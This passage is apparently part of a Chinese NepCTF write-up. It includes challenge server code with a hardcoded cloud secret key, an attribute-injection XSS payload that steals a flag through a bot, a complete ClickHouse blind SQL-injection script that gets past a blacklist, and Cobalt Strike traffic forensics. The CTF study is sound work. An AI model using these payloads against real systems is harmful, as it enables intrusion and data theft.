    secretKey: "NXUDi2B7rOMAl8IF4pZ9d9UdmjSzKRN6",
  },
  region: "ap-guangzhou",
  profile: {
    httpProfile: {
      endpoint: "sts.tencentcloudapi.com",
    },
  },
};
const client = new StsClient(clientConfig);

// 注册接口
app.post('/api/register', (req, res) => {
  const { username, password } = req.body;
  if (users[username]) {
    return res.status(409).json({ success: false, message: '用户名已存在' });
  }
  const uuid = uuidv4();
  users[username] = { password, role: 'user', uuid, bio: '' };
  res.json({ success: true, message: '注册成功' });
});

// 登录页面
app.get('/', (req, res) => {
  let loginHtml = fs.readFileSync(path.join(__dirname, 'public', 'login.html'), 'utf8');
  if (loginBgUrl) {
    const key = loginBgUrl.replace('/uploads/', 'uploads/');
    const fileUrl = `http://ctf.mudongmudong.com/${key}`;

    const iframeHtml = `<iframe id="backgroundframe" src="${fileUrl}" style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: -1; border: none;"></iframe>`;
    loginHtml = loginHtml.replace('</body>', `${iframeHtml}</body>`);
  }
  res.send(loginHtml);
});


// 登录接口
app.post('/api/login', (req, res) => {
  const { username, password } = req.body;
  const user = users[username];

  if (user && user.password === password) {
    req.session.user = { username, role: user.role, uuid: user.uuid };
    res.json({ success: true, role: user.role });
  } else {
    res.status(401).json({ success: false, message: '认证失败' });
  }
});

// 检查用户是否已登录
function ensureAuthenticated(req, res, next) {
  if (req.session.user) {
    next();
  } else {
    res.status(401).json({ success: false, message: '请先登录' });
  }
}

// 获取用户信息
app.get('/api/user', ensureAuthenticated, (req, res) => {
  const user = users[req.session.user.username];
  res.json({ username: req.session.user.username, role: req.session.user.role, uuid: req.session.user.uuid, bio: user.bio });
});

// 获取头像临时密钥
app.get('/api/avatar-credentials', ensureAuthenticated, async (req, res) => {
  const params = {
    Policy: JSON.stringify({
      version: "2.0",
      statement: [
        {
          effect: "allow",
          action: ["cos:PutObject"],
          resource: [
            `qcs::cos:ap-guangzhou:uid/1360802834:test-1360802834/picture/${req.session.user.uuid}.png`
          ],
          Condition: {
            numeric_equal: {
              "cos:request-count": 5
            },
            numeric_less_than_equal: {
              "cos:content-length": 10485760  // 10MB 大小限制
            }
          }
        },
        {
          effect: "allow",
          action: ["cos:GetBucket"],
          resource: [
            "qcs::cos:ap-guangzhou:uid/1360802834:test-1360802834/*"
          ]
        }
      ]
    }),
    DurationSeconds: 1800,
    Name: "avatar-upload-client"
  };

  try {
    const response = await client.GetFederationToken(params);
    const auth = Buffer.from(JSON.stringify(params.Policy)).toString('base64');
    res.json({ ...response.Credentials, auth });
  } catch (err) {
    console.error("获取头像临时密钥失败:", err);
    res.status(500).json({ error: '获取临时密钥失败' });
  }
});

// 获取文件上传临时密钥（管理员）
app.get('/api/file-credentials', ensureAuthenticated, async (req, res) => {
  if (req.session.user.role !== 'admin') {
    return res.status(403).json({ error: '权限不足' });
  }

  const params = {
    Policy: JSON.stringify({
      version: "2.0",
      statement: [
        {
          effect: "allow",
          action: ["cos:PutObject"],
          resource: [
            `qcs::cos:ap-guangzhou:uid/1360802834:test-1360802834/uploads/${req.session.user.uuid}/*`
          ],
          Condition: {
            numeric_equal: {
              "cos:request-count": 5
            },
            numeric_less_than_equal: {
              "cos:content-length": 10485760  
            }
          }
        },
        {
          effect: "allow",
          action: ["cos:GetBucket"],
          resource: [
            "qcs::cos:ap-guangzhou:uid/1360802834:test-1360802834/*"
          ]
        }
      ]
    }),
    DurationSeconds: 1800,
    Name: "file-upload-client"
  };

  try {
    const response = await client.GetFederationToken(params);
    const auth = Buffer.from(JSON.stringify(params.Policy)).toString('base64');
    res.json({ ...response.Credentials, auth });
  } catch (err) {
    console.error("获取文件临时密钥失败:", err);
    res.status(500).json({ error: '获取临时密钥失败' });
  }
});

// 保存个人简介（做好 XSS 防护）
app.post('/api/save-bio', ensureAuthenticated, (req, res) => {
  const { bio } = req.body;
  const sanitizedBio = he.encode(bio);
  const user = users[req.session.user.username];
  user.bio = sanitizedBio;
  res.json({ success: true, message: '个人简介保存成功' });
});

// 退出登录
app.post('/api/logout', ensureAuthenticated, (req, res) => {
  req.session.destroy();
  res.json({ success: true });
});

// 设置登录页面背景
app.post('/api/set-login-bg', ensureAuthenticated, async (req, res) => {
  if (req.session.user.role !== 'admin') {
    return res.status(403).json({ success: false, message: '权限不足' });
  }
  const { key } = req.body;
  bgURL = key;
  try {
    const fileUrl = `http://ctf.mudongmudong.com/${bgURL}`;
    const response = await fetch(fileUrl);
    if (response.ok) {
        const content = response.text();
    } else {
        console.error('获取文件失败:', response.statusText);
        return res.status(400).json({ success: false, message: '获取文件内容失败' });
    }
  } catch (error) {
      return res.status(400).json({ success: false, message: '打开文件失败' });
  }
  loginBgUrl = key;
  res.json({ success: true, message: '背景设置成功' });
});


app.get('/api/bot', ensureAuthenticated, (req, res) => {

  if (req.session.user.role !== 'admin') {
    return res.status(403).json({ success: false, message: '权限不足' });
  }

  const scriptPath = path.join(__dirname, 'bot_visit');

  // bot 将会使用客户端软件访问 http://127.0.1:3000/ ，但是bot可不会带着他的秘密去访问哦

  execFile(scriptPath, ['--no-sandbox'], (error, stdout, stderr) => {
    if (error) {
      console.error(`bot visit fail: ${error.message}`);
      return res.status(500).json({ success: false, message: 'bot visit failed' });
    }

    console.log(`bot visit success:\n${stdout}`);
    res.json({ success: true, message: 'bot visit success' });
  });
});

// 下载客户端软件
app.get('/downloadClient', (req, res) => {
  const filePath = path.join(__dirname, 'client_setup.zip');

  if (!fs.existsSync(filePath)) {
    return res.status(404).json({ success: false, message: '客户端文件不存在' });
  }

  res.download(filePath, 'client_setup.zip', (err) => {
    if (err) {
      console.error('client download error: ', err);
      return res.status(500).json({ success: false, message: '下载失败' });
    } else {
    }
  });
});

// 启动服务器
app.listen(PORT, () => {
  console.log(`服务器运行在端口 ${PORT}`);
});
```

在登录页面接口中，存在一个 `<iframe>` 标签，并允许直接将用户的输入原封不动进行输出，可以结合设置登录页面背景接口来发起攻击。由于 Bot 并不会携带秘密（也就是 Cookie），因此需要通过 `document.cookie` 为 Bot 写入一个账号 admin 的 Cookie 进去，然后利用 `window.electronAPI.curl` （前提是 Bot 使用提供的 Electron 客户端访问）拿出 flag 内容并通过保存个人简介接口将 flag 写入到账号 admin 的简介中。

> `fetch()` 方法是不携带 Cookie 的，所以最好不在 headers 里面些 Cookie。

具体 JavaScript 代码如下。

```js
document.cookie = 'connect.sid=s%3Ao93qeMzwrfLvUBBxG94TsMckuo9-LdG0.97efDsrL5mM5bEOghQuLC1KUgn3CE4j9NEZpmQuTCes';
window.electronAPI.curl('file:///flag').then(data => {
    fetch('/api/save-bio', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            'bio': JSON.stringify(data)
        })
    })
})
```

Payload 如下。

```json
{"key":"x\" onload=\"document.cookie='connect.sid=s%3Ao93qeMzwrfLvUBBxG94TsMckuo9-LdG0.97efDsrL5mM5bEOghQuLC1KUgn3CE4j9NEZpmQuTCes';window.electronAPI.curl('file:///flag').then(data=>{fetch('/api/save-bio',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({'bio':JSON.stringify(data)})})})\" x=\""}
```

上传后的结果如下。

```html
<iframe id="backgroundframe" src="https://ctf.mudongmudong.com/x" onload="document.cookie='connect.sid=s%3Ao93qeMzwrfLvUBBxG94TsMckuo9-LdG0.97efDsrL5mM5bEOghQuLC1KUgn3CE4j9NEZpmQuTCes';window.electronAPI.curl('file:///flag').then(data=>{fetch('/api/save-bio',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({'bio':JSON.stringify(data)})})})" x="" style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: -1; border: none;"></iframe>
```

设置登录背景图请求响应包如下。（若出现失败则可以多尝试几次，因为 `https://ctf.mudongmudong.com/x` 其实是无法访问的，也不知道为什么会判断为真）

```http
POST /api/set-login-bg HTTP/1.1
Host: nepctf30-yfrc-xj2l-l3y8-z9ogmlq6d745.nepctf.com
Cookie: connect.sid=s%3Ao93qeMzwrfLvUBBxG94TsMckuo9-LdG0.97efDsrL5mM5bEOghQuLC1KUgn3CE4j9NEZpmQuTCes
Content-Type: application/json
Content-Length: 327

{"key":"x\" onload=\"document.cookie='connect.sid=s%3Ao93qeMzwrfLvUBBxG94TsMckuo9-LdG0.97efDsrL5mM5bEOghQuLC1KUgn3CE4j9NEZpmQuTCes';window.electronAPI.curl('file:///flag').then(data=>{fetch('/api/save-bio',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({'bio':JSON.stringify(data)})})})\" x=\""}
```

```json
{"success":true,"message":"背景设置成功"}
```

访问 /api/bot ，请求响应包如下。

```http
GET /api/bot HTTP/1.1
Host: nepctf30-yfrc-xj2l-l3y8-z9ogmlq6d745.nepctf.com
Cookie: connect.sid=s%3Ao93qeMzwrfLvUBBxG94TsMckuo9-LdG0.97efDsrL5mM5bEOghQuLC1KUgn3CE4j9NEZpmQuTCes


```

```json
{"success":true,"message":"bot visit success"}
```

访问 /api/user ，得到 flag。（如果没有的话尝试多触发几次 /api/bot）

```http
GET /api/user HTTP/1.1
Host: nepctf30-yfrc-xj2l-l3y8-z9ogmlq6d745.nepctf.com
Cookie: connect.sid=s%3Ao93qeMzwrfLvUBBxG94TsMckuo9-LdG0.97efDsrL5mM5bEOghQuLC1KUgn3CE4j9NEZpmQuTCes
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://nepctf30-yfrc-xj2l-l3y8-z9ogmlq6d745.nepctf.com/dashboard.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: keep-alive


```

```json
{"username":"admin","role":"admin","uuid":"826ccaea-365e-4668-a3b4-0564e0d043b9","bio":"{&#x22;success&#x22;:true,&#x22;data&#x22;:&#x22;NepCTF{10362373-0da4-48c1-0f14-6a60934c227f}\\n&#x22;}"}
```

### 我难道不是 SQL 注入天才吗

> Hint: 后端数据库是 `clickhouse` ，黑名单字符串如下 `preg_match('/select.*from|\(|or|and|union|except/is',$id)` 。

> 本题通过 NepCTF QQ 群的师傅们所发的 Exp 进行复现。

通过传入 `1` 、`2` 、`3` 等等可以输出 id 为相应值的结果。

<figure><figcaption></figcaption></figure>

通过 BP 传入 `id` 发现输出了所有用户数据。

<figure><figcaption></figcaption></figure>

通过 BP 传入 `name` 发现输出了报错。

<figure><figcaption></figcaption></figure>

```
查询失败: There is no supertype for types UInt32, String because some of them are String\/FixedString\/Enum and some of them are not. (NO_COMMON_TYPE) 
IN:SELECT * 
            FROM users 
            WHERE id = name FORMAT JSON
```

通过 AI 可以发现得到这是典型 **ClickHouse** 错误信息，并且可以得到服务端中的注入点语句如下。

```sql
SELECT * FROM users WHERE id = {user_input} FORMAT JSON
```

通过 INTERSECT 和 LIKE 子句实现盲注，INTERSECT 子句实现计算两个查询的交集，但需要**两个查询语句的列数量、类型和顺序一致**，返回结果仅包括两个查询中**重复的记录**。

来解释下 Exp 中的 Payload。

```python
payload_template = "id INTERSECT FROM system.databases AS inject JOIN users ON inject.name LIKE '{pattern}' SELECT users.id, users.name, users.email, users.age"
```

拼下后的 SQL 语句如下。

```sql
SELECT users.id, users.name, users.email, users.age
FROM users
WHERE users.id = id INTERSECT
FROM system.databases AS inject
JOIN users ON inject.name LIKE '{pattern}'
SELECT users.id, users.name, users.email, users.age
FORMAT JSON;
```

在 ClickHouse 中，可以**将 `FROM` 放在 `SELECT` 子句之前**，因此可以通过这种方式绕过黑名单中的 `select.*from` 。另外，`JOIN` 和 `ARRAY JOIN` 子句也可以用于扩展 `FROM` 子句功能。

INTERSECT 子句的前一半内容如下，返回的内容是所有用户的 ID、Name、Email 和 Age 。

```sql
SELECT users.id, users.name, users.email, users.age FROM users WHERE users.id = id
```

后一半的内容转换成熟悉的样子如下所示。

```sql
SELECT users.id, users.name, users.email, users.age
FROM system.databases
JOIN users ON system.databases.name LIKE '{pattern}'
```

该依据同样跟前一半一样，获取了用户的 ID、Name、Email 和 Age，虽然 FROM 是系统中所有数据库的信息，但是 JOIN 子句访问了用户表 `users` ，将 ON 条件当作 IF 判断来用，若 ON 条件为真则同样输出**所有用户的 ID、Name、Email 和 Age** 。

此时，与 INTERSECT 子句的前一半内容取交集输出结果。因此，可以通过 ON 条件盲注出所想要的数据。具体原理就是上面这样，感谢群里师傅发的 Exp ！

由于 Exp 缺少了对于内存超限（如下图所示）时候的重试，以及在爆破 Flag 的时候依旧采用 BFS 导致爆破效率较低，故使用 AI 进行了一些优化\~

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

优化后 Exp 如下，请自行根据所爆破的字段修改 FLAG\_MODE 的值。

```python
import requests
from collections import deque
from urllib.parse import urlparse
import string
import time
import sys
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

# --- 配置 ---
URL = "https://nepctf30-ke4r-6c0a-zqqw-zxi9nxp4k595.nepctf.com"
CHARSET = '1234567890abcdef-}'
# CHARSET = string.ascii_lowercase + string.digits + '~`!@#$%^&*()+-={}[]\|<>,.?/_'
# CHARSET = string.ascii_letters + string.digits + string.punctuation
# 库
# payload_template = "id INTERSECT FROM system.databases AS inject JOIN users ON inject.name LIKE '{pattern}' SELECT users.id, users.name, users.email, users.age"
# 表
# payload_template = "id INTERSECT FROM system.tables AS inject JOIN users ON inject.name LIKE '{pattern}' SELECT users.id, users.name, users.email, users.age WHERE inject.database='nepnep'"
# 名
# payload_template = "id INTERSECT FROM system.columns AS inject JOIN users ON inject.name LIKE '{pattern}' SELECT users.id, users.name, users.email, users.age WHERE inject.table='nepnep'"
# flag
# python test2.py "NepCTF{"
FLAG_MODE = True  # True 表示爆破 flag，False 表示遍历所有可能的表名
payload_template = "id INTERSECT FROM nepnep.nepnep AS inject JOIN users ON inject.`51@g_ls_h3r3` LIKE '{pattern}' SELECT users.id, users.name, users.email, users.age"


HOSTNAME = urlparse(URL).hostname
HEADERS = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Connection': 'keep-alive',
    'Host': HOSTNAME
}

# 添加代理配置 (默认指向Burp Suite)
PROXIES = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}
# 每次请求后的延迟时间（秒），以避免过快请求导致被封禁
REQUEST_DELAY = 3


# --- 核心检测函数 ---

def check(prefix, exact_match=False, max_retries=10, retry_delay=5):
    """
    发送盲注Payload，根据响应判断条件是否为真。
    内存超限时会自动等待 retry_delay 秒重试，最多 max_retries 次。
    """
    like_pattern = prefix if exact_match else f"{prefix}%"
    final_payload = payload_template.format(pattern=like_pattern)
    data = {'id': final_payload}

    attempt = 0
    while attempt < max_retries:
        attempt += 1
        try:
            response = requests.post(
                URL,
                headers=HEADERS,
                data=data,
                timeout=15,
                proxies=PROXIES,
                verify=False
            )

            # 每次请求后暂停，避免触发防护
            time.sleep(REQUEST_DELAY)

            # --- 内存超限处理 ---
            if "MEMORY_LIMIT_EXCEEDED" in response.text or "memory limit exceeded" in response.text:
                print(f"[!] 内存超限 (第{attempt}次尝试) -> 前缀 '{prefix}'")
                if attempt < max_retries:
                    print(f"    等待 {retry_delay} 秒后重试...")
                    time.sleep(retry_delay)
                    continue
                else:
                    print(f"[-] 前缀 '{prefix}' 多次内存超限，放弃本次尝试。")
                    return False

            # --- 成功返回判断 ---
            return 'User_5' in response.text

        except requests.exceptions.RequestException as e:
            print(f"[Error] 请求失败 (第{attempt}次) 前缀 '{prefix}': {e}", file=sys.stderr)
            if attempt < max_retries:
                print(f"    等待 {retry_delay} 秒后重试...")
                time.sleep(retry_delay)
            else:
                return False


# --- 广度优先搜索 (BFS) 算法 ---

def bfs_discover(start_prefix=""):
    """
    使用 BFS / DFS 爆破，根据 FLAG_MODE 自动切换策略：
    - FLAG_MODE = True  : 找到一个字符立即进入下一位（类似 DFS）
    - FLAG_MODE = False : 完整 BFS 遍历所有可能字符
    """
    print("--- [ 启动盲注爆破脚本 ] ---")
    queue = deque()
    found_names = set()

    # 1. 初始化队列
    if start_prefix:
        print(f"\n[+] 从指定前缀 '{start_prefix}' 开始搜索...")
        if check(start_prefix):
            print(f"  - 前缀 '{start_prefix}' 有效，加入队列。")
            queue.append(start_prefix)
            if check(start_prefix, exact_match=True):
                print(f"  [!] 指定前缀即完整项: {start_prefix}")
                found_names.add(start_prefix)
        else:
            print(f"[-] 前缀 '{start_prefix}' 无效或无返回，终止。")
            return
    else:
        if FLAG_MODE:
            # flag 模式从空前缀开始 DFS
            print("[+] FLAG_MODE: 从空前缀开始 DFS 爆破。")
            queue.append("")
        else:
            # 枚举模式 BFS 初始化
            print("\n[+] 正在探测第一层前缀...")
            for char in CHARSET:
                if check(char):
                    print(f"  - 发现有效起始字符: '{char}'")
                    queue.append(char)
                    if check(char, exact_match=True):
                        print(f"  [!] 发现完整项: {char}")
                        found_names.add(char)

    if not queue:
        print("[-] 初始队列为空，退出。")
        return

    # 2. BFS/DFS 遍历
    level = len(start_prefix) if start_prefix else 0
    while queue:
        level_size = len(queue)
        print(f"\n--- 正在处理长度为 {level + 1} 的前缀 (当前队列: {level_size}) ---")

        for _ in range(level_size):
            current_prefix = queue.popleft()
            print(f"[INFO] 扩展前缀: '{current_prefix}'")

            for char in CHARSET:
                new_prefix = current_prefix + char

                # 检查新前缀是否存在
                if check(new_prefix):
                    print(f"  - 有效前缀: '{new_prefix}'")
                    queue.append(new_prefix)

                    # 检查是否完整项
                    if check(new_prefix, exact_match=True):
                        print(f"\n  [!] 发现完整项: {new_prefix}\n")
                        found_names.add(new_prefix)

                    if FLAG_MODE:
                        # FLAG_MODE 下立即进入下一位，不再爆破同层其他字符
                        print(f"  [FLAG_MODE] 立即进入下一位爆破: '{new_prefix}'")
                        queue.clear()
                        queue.append(new_prefix)
                        break  # 跳出 CHARSET 循环
            # FLAG_MODE 下，一旦找到字符就不再处理同层其他前缀
            if FLAG_MODE and queue:
                break

        level += 1
        time.sleep(0.5)  # 避免过快请求

    print("\n--- [ 爆破完成 ] ---")
    if found_names:
        print("[SUCCESS] 发现的完整项:")
        for name in sorted(list(found_names)):
            print(f"  -> {name}")
    else:
        print("[-] 未能发现任何完整项。")


# --- 脚本主入口 ---
if __name__ == "__main__":
    # 从命令行参数获取可选的起始前缀
    print(f"用法: python {sys.argv[0]} [可选的起始前缀]")
    start_prefix = ""
    if len(sys.argv) > 1:
        start_prefix = sys.argv[1]
        print(f"\n[*] 检测到命令行参数，将使用 '{start_prefix}' 作为起始前缀进行搜索。")
    else:
        print("\n[*] 未提供起始前缀，将从头开始搜索所有表名。")

    bfs_discover(start_prefix)
```

通过运行 `python test2.py "NepCTF{"` 稍许片刻（可能是片刻）即可得到 flag ，若出现多次内存超限，可尝试歇几分钟再来猛攻。

<figure><figcaption></figcaption></figure>

## Misc

### NepBotEvent

根据题目描述可知为 Linux 系统环境，需结合 Linux `input_event` 格式解密，用 AI 糊一个脚本。

https://github.com/albert-gee/linux-keylogger

```python
import struct

file_path = "E:\\NepCTF\\nepbotevent\\NepBot_keylogger"

NORMAL_KEYMAP = {
    2: '1', 3: '2', 4: '3', 5: '4', 6: '5', 7: '6', 8: '7', 9: '8', 10: '9', 11: '0',
    12: '-', 13: '=', 14: '[BKSP]', 15: '\t',
    16: 'q', 17: 'w', 18: 'e', 19: 'r', 20: 't', 21: 'y', 22: 'u', 23: 'i', 24: 'o', 25: 'p',
    26: '[', 27: ']', 28: '\n',
    30: 'a', 31: 's', 32: 'd', 33: 'f', 34: 'g', 35: 'h', 36: 'j', 37: 'k', 38: 'l',
    39: ';', 40: '\'', 41: '`',
    44: 'z', 45: 'x', 46: 'c', 47: 'v', 48: 'b', 49: 'n', 50: 'm',
    51: ',', 52: '.', 53: '/',
    57: ' ', 58: '[CAPSLOCK]', 42: '[LSHIFT]', 54: '[RSHIFT]', 29: '[CTRL]',
    55: '*', 74: '-', 78: '+', 83: '.', 96: '\n'
}

SHIFT_KEYMAP = {
    2: '!', 3: '@', 4: '#', 5: '$', 6: '%', 7: '^', 8: '&', 9: '*', 10: '(', 11: ')',
    12: '_', 13: '+',
    16: 'Q', 17: 'W', 18: 'E', 19: 'R', 20: 'T', 21: 'Y', 22: 'U', 23: 'I', 24: 'O', 25: 'P',
    26: '{', 27: '}', 28: '\n',
    30: 'A', 31: 'S', 32: 'D', 33: 'F', 34: 'G', 35: 'H', 36: 'J', 37: 'K', 38: 'L',
    39: ':', 40: '"', 41: '~',
    44: 'Z', 45: 'X', 46: 'C', 47: 'V', 48: 'B', 49: 'N', 50: 'M',
    51: '<', 52: '>', 53: '?',
    57: ' '
}

def decode_linux_input_event(filename):
    result = ""
    shift = False

    with open(filename, "rb") as f:
        while True:
            data = f.read(24)
            if len(data) < 24:
                break

            # 结构为 struct timeval + type + code + value
            sec, usec, type_, code, value = struct.unpack("<qqHHI", data)

            # 只处理键盘事件（type = 1）
            if type_ != 1:
                continue

            # Shift 键处理（keycode 42 或 54）
            if code in (42, 54):  # Left or Right Shift
                shift = (value == 1)  # 按下为 True，释放为 False
                continue

            # 只处理按下事件（value == 1）
            if value != 1:
                continue

            # 获取映射字符
            if shift:
                char = SHIFT_KEYMAP.get(code)
            else:
                char = NORMAL_KEYMAP.get(code)

            if char:
                result += char
            else:
                result += f"[{code}]"

    return result

print(decode_linux_input_event(file_path))
'''
whoami
ifconfig
uanme -a[BKSP][BKSP]uname -a
ps -aux
cat /etc/issue
pwd
mysql -uroot -proot
show databases;
ue[BKSP]se NE[BKSP][BKSP]NepCTF-20250725-114514;
show tables;
Enjoy yourself~
See u again.
Hacked By 1cePeak:)
[CTRL]c
'''
```

Flag 就是 `NepCTF{NepCTF-20250725-114514}`

### SpeedMino

游戏每次得分整数增加时都会对存储在 `youwillget` 数组中的密文调用一次 `calcData()`；当调用次数达到 2600 次时，这个数组就变成了真正的 flag。但在开始游戏时还会先用 55 个空格（从剪贴板读取后补足）对 RC 4 进行一次初始化，所以总的调用顺序是：先对 55 个空格调用一次 `calcData()`，然后对 `youwillget` 调用 2600 次。

```python
key = "Speedmino Created By MrZ and modified by zxc"
S = list(range(256))
j = 0
for i in range(256):
    j = (j + S[i] + ord(key[i % len(key)])) % 256
    S[i], S[j] = S[j], S[i]
secret_i, secret_j = 0, 0

def calcData(data):
    global secret_i, secret_j, S
    result = []
    for val in data:
        secret_i = (secret_i + 1) % 256
        secret_j = (secret_j + S[secret_i]) % 256
        S[secret_i], S[secret_j] = S[secret_j], S[secret_i]
        keystream = S[(S[secret_i] + S[secret_j]) % 256]
        result.append((val + keystream) % 256)
    return result

passTable = [32] * 55
calcData(passTable)

youwillget = [187,24,5,131,58,243,176,235,179,159,170,155,201,23,6,3,
              210,27,113,11,161,94,245,41,29,43,199,8,200,252,86,17,
              72,177,52,252,20,74,111,53,28,6,190,108,47,16,237,148,
              82,253,148,6]

for _ in range(2600):
    youwillget = calcData(youwillget)

flag = ''.join(chr(c) if 32 <= c < 127 else '#' for c in youwillget)
print(flag)
# NepCTF{You_ARE_SpeedMino_GRAND-MASTER_ROUNDS!_TGLKZ}
```

### 客服小美

流量为 CS 流量，通过流量包可知 IP 和端口 `192.168.27.132:12580`

```http
GET /TJvI HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0; Trident/5.0)
Host: 192.168.27.132:12580
Connection: Keep-Alive
Cache-Control: no-cache
```

通过 Volatility 查看版本可知为 `Win10x64_19041` 。

```bash
$ python vol.py -f ~/Desktop/DESKTOP.raw imageinfo                                                                            
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win10x64_19041
                     AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/kali/Desktop/DESKTOP.raw)
                      PAE type : No PAE
                           DTB : 0x1ad000L
                          KDBG : 0xf8005221eb20L
          Number of Processors : 2
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff80050626000L
                KPCR for CPU 1 : 0xffffb181d5940000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2025-01-13 07:30:02 UTC+0000
     Image local date and time : 2025-01-13 15:30:02 +0800
```

通过查询进程发现可疑进程 `s?2025t??G???` ，PID 为 6492。

```bash
$ python vol.py -f ~/Desktop/DESKTOP.raw --profile=Win10x64_19041 pslist

Volatility Foundation Volatility Framework 2.6.1

Offset(V) Name PID PPID Thds Hnds Sess Wow64 Start Exit

------------------ -------------------- ------ ------ ------ -------- ------ ------ ------------------------------ ------------------------------

0xffffd804acd6b080 s?2025t??G??? 6492 3944 5 0 1 0 2025-01-13 07:29:00 UTC+0000
```

导出可疑进程内存数据。

```bash
$ python vol.py -f ~/Desktop/DESKTOP.raw --profile=Win10x64_19041 memdump --pid=6492 --dump-dir=.
```

> https://github.com/DidierStevens/DidierStevensSuite/blob/master/cs-parse-traffic.py

通过 `cs-parse-traffic.py` 尝试提取加密数据流量。

```bash
$ python cs-parse-traffic.py -k unknown ./DESKTOP.pcapng

发现
Packet number: 83
HTTP response (for request 80 GET)
Length raw data: 48
ac4cb985c04d084b0f77ed1b7745b23123abb198370ffcaedebf12c1f9de9b6fb6094a50a93af84cacd11a30b468dfbd

Packet number: 83
HTTP request 
http://192.168.27.132:12580/ca
Length raw data: 48
ac4cb985c04d084b0f77ed1b7745b23123abb198370ffcaedebf12c1f9de9b6fb6094a50a93af84cacd11a30b468dfbd
```

> https://github.com/DidierStevens/DidierStevensSuite/blob/master/cs-extract-key.py

通过 `cs-extract-key.py` 尝试提取密钥。

```bash
$ python cs-extract-key.py -t ac4cb985c04d084b0f77ed1b7745b23123abb198370ffcaedebf12c1f9de9b6fb6094a50a93af84cacd11a30b468dfbd ./6492.dmp
File: ./6492.dmp
Searching for AES and HMAC keys
Found 2 instance(s) of string sha256\x00
Searching after sha256\x00 string (0x61a44)
AES key position: 0x00068c60
AES Key:  a6f4a04f8a6aa5ff27a5bcdd5ef3b9a7 ...O.j..'...^... 82.200000
HMAC key position: 0x00068c70
HMAC Key: 35d34ac8778482751682514436d71e09
SHA256 raw key: 35d34ac8778482751682514436d71e09:a6f4a04f8a6aa5ff27a5bcdd5ef3b9a7
Searching for raw key
Searching after sha256\x00 string (0x22562f4)
Searching for raw key
```

尝试通过提取的密钥进行解密。

```bash
$ python cs-parse-traffic.py -k 35d34ac8778482751682514436d71e09:a6f4a04f8a6aa5ff27a5bcdd5ef3b9a7 ./DESKTOP.pcapng
Packet number: 25
HTTP response (for request 6 GET)
Length raw data: 296007
HMAC signature invalid

Packet number: 25
HTTP request 
http://192.168.27.132:12580/TJvI
Length raw data: 296007
HMAC signature invalid

Packet number: 47
HTTP response (for request 44 GET)
Length raw data: 48
Timestamp: 1736753356 20250113-072916
Data size: 12
Command: 32 COMMAND_PS
 Arguments length: 4
 b'\x00\x00\x00\x00'
 MD5: f1d3ff8443297732862df21dc4e57262

Packet number: 47
HTTP request 
http://192.168.27.132:12580/ca
Length raw data: 48
HMAC signature invalid

Packet number: 56
HTTP request POST
http://192.168.27.132:12580/submit.php?id=1389642286
Length raw data: 2532
Counter: 2
Callback: 17 CALLBACK_PROCESS_LIST
* An error occured
'utf-8' codec can't decode byte 0xb9 in position 2150: invalid start byte
Packet number: 83
HTTP response (for request 80 GET)
Length raw data: 48
Timestamp: 1736753476 20250113-073116
Data size: 19
Command: 53 COMMAND_LS
 Arguments length: 11
 b'\xff\xff\xff\xfe\x00\x00\x00\x03.\\*'
 MD5: 4a2685ea905daff3380145bc124d7b2b

Packet number: 83
HTTP request 
http://192.168.27.132:12580/ca
Length raw data: 48
HMAC signature invalid

Packet number: 90
HTTP request POST
http://192.168.27.132:12580/submit.php?id=1389642286
Length raw data: 356
Counter: 3
Callback: 22 CALLBACK_PENDING
B'\xff\xff\xff\xfe'
----------------------------------------------------------------------------------------------------
C:\Users\JohnDoe\Desktop\*
D       0       01/13/2025 15:31:07     .
D       0       01/13/2025 15:31:07     ..
F       282     01/13/2025 15:19:00     desktop.ini
F       207496  01/13/2025 11:49:56     DumpIt. Exe
F       2332    01/13/2025 15:19:01     Microsoft Edge.lnk
F       36      01/13/2025 15:31:02     secret.txt
F       19456   01/13/2025 14:13:11     ¹ØÓÚ2025Ä겿·Ö½Ú¼ÙÈÕ°²ÅŵÄ֪ͨ.exe

----------------------------------------------------------------------------------------------------
Extra packet data: b'\x 00'

Packet number: 103
HTTP response (for request 100 GET)
Length raw data: 80
Timestamp: 1736753536 20250113-073216
Data size: 46
Command: 78 COMMAND_EXECUTE_JOB
 Command: b'%COMSPEC%'
 Arguments: b' /C type secret.txt'
 Integer: 0

Packet number: 103
HTTP request 
http://192.168.27.132:12580/ca
Length raw data: 80
HMAC signature invalid

Packet number: 110
HTTP request POST
http://192.168.27.132:12580/submit.php?id=1389642286
Length raw data: 84
Counter: 4
Callback: 30 CALLBACK_OUTPUT_OEM
5 c 1 eb 2 c 4-0 b 85-491 f-8 d 50-4 e 965 b 9 d 8 a 43

Packet number: 123
HTTP response (for request 120 GET)
Length raw data: 784
Timestamp: 1736753596 20250113-073316
Data size: 755
Command: 77 COMMAND_GETPRIVS
 Arguments length: 747
